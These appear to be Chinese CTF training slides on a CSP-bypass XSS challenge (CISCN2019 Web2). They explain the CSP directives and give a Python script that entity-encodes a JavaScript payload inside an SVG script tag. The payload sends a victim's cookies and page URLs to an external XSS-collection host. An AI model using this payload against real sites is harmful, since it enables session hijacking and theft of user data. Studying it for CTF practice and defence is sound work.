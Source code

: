 
---

## 例题 2 **[CISCN2019 华东北赛区]Web2**

![](img/web2-xss-CSP2.png)

---

其中 default-src 'self';'unsafe-inline' 'unsafe-eval'是什么意思

1. default-src 'self'：只允许加载站内资源
2. 'unsafe-inline'：允许执行页面内嵌的标签个事件监听函数
3. 'unsafe-eval'：允许将字符串当作代码执行，比如使用 eval、setTimeout、setInterval 等函数

**使用[HTML Markup](https://www.w3.org/MarkUp/html-spec/html-spec_13.html)来绕过**

---

## 例题 2 **[CISCN2019 华东北赛区]Web2**

转换脚本

```python
in_str = "(function(){(window.location.href='http://xss.buuoj.cn/index.php?do=api&id=uavZKE&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();"
output = ""
for c in in_str:

    output += "&#" + str(ord(c))

print("<svg><script>eval&#40&#34" + output + "&#34&#41</script></svg>")
```

---

## 例题 2 **[CISCN2019 华东北赛区]Web2**
